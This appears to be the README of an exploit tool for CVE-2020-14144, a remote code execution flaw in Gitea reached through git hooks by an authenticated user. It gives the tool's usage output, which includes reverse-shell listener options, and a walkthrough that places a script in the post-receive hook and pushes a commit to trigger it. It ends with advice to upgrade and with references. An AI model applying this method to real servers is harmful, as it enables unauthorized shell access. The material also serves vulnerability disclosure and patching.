

# CVE-2020-14144 - GiTea authenticated RCE

<p align="center">
  A script to exploit CVE-2020-14144 - GiTea authenticated Remote Code Execution using git hooks
  <br>
  
  <a href="https://twitter.com/intent/follow?screen_name=podalirius_" title="Follow"></a>
  <a href="https://www.youtube.com/channel/UCF_x5O7CSfr82AfNVTKOv_A?sub_confirmation=1" title="Subscribe"></a>
  <br>
</p>

## Features

 - [x] Automatic reverse shell payload generation from IP and PORT
 - [x] Upload custom shell script and execute it remotely with option `-f`
 - [x] Automatic login with username and password

## Usage

```
$ ./CVE-2020-14144-GiTea-git-hooks-rce.py -h
    _____ _ _______
   / ____(_)__   __|             CVE-2020-14144
  | |  __ _   | | ___  __ _
  | | |_ | |  | |/ _ \/ _` |     Authenticated Remote Code Execution
  | |__| | |  | |  __/ (_| |
   \_____|_|  |_|\___|\__,_|     GiTea versions >= 1.1.0 to <= 1.12.5
     
usage: CVE-2020-14144-GiTea-git-hooks-rce.py [-h] [-v] -t TARGET -u USERNAME -p PASSWORD [-I REV_IP] [-P REV_PORT] [-f PAYLOAD_FILE]

CVE-2020-14144 - GiTea authenticated Remote Code Execution using git hooks

optional arguments:
  -h, --help            show this help message and exit
  -v, --verbose         Increase verbosity.
  -t TARGET, --target TARGET
                        Target host (http://..., https://... or domain name)
  -u USERNAME, --username USERNAME
                        GiTea username
  -p PASSWORD, --password PASSWORD
                        GiTea password
  -I REV_IP, --rev-ip REV_IP
                        Reverse shell listener IP
  -P REV_PORT, --rev-port REV_PORT
                        Reverse shell listener port
  -f PAYLOAD_FILE, --payload-file PAYLOAD_FILE
                        Path to shell script payload to use.

```

## Demonstration

In order to successfully exploit this vulnerability/feature, the target server GiTea version should be between version 1.1.0 and version 1.13, and you need a valid account (username, password) with "_May create git hooks_" rights activated.


From a system administration point of view, the gitea process looks like this before the exploitation :


First of all, we need to create a repository on the GiTea web interface, using our account. We create the repository and we go into `Settings -> Git Hooks -> Post Receive Hook`. In this hook you can write a shell script that will be executed after receiving a new commit.


Now we will create a temporary directory on our attacking machine, and push to the remote repository. It will trigger the `Post Receive Hook` script.

```sh
touch README.md
git init
git add README.md
git commit -m "Initial commit"
git remote add origin https://vulnserver/testuser/vuln.git
git push -u origin master
```

After we pushed the commit to the remote repository, it will trigger the `Post Receive Hook` script and we will have a reverse shell !



After the exploitation, a system administrator can easily see our detached reverse shell in the child processes of GiTea :


## Mitigations

It is recommended to update to at least version 1.13.0.

## Additional references

 - https://podalirius.net/en/articles/exploiting-cve-2020-14144-gitea-authenticated-remote-code-execution/
 - https://nvd.nist.gov/vuln/detail/CVE-2020-14144
 - https://www.fzi.de/en/news/news/detail-en/artikel/fsa-2020-3-schwachstelle-in-gitea-1125-und-gogs-0122-ermoeglicht-ausfuehrung-von-code-nach-authent/
 - https://docs.gitlab.com/ee/administration/server_hooks.html
 - https://github.com/go-gitea/gitea
 - https://github.com/go-gitea/gitea/pull/13058

## Contributing

Pull requests are welcome. Feel free to open an issue if you want to add other features.
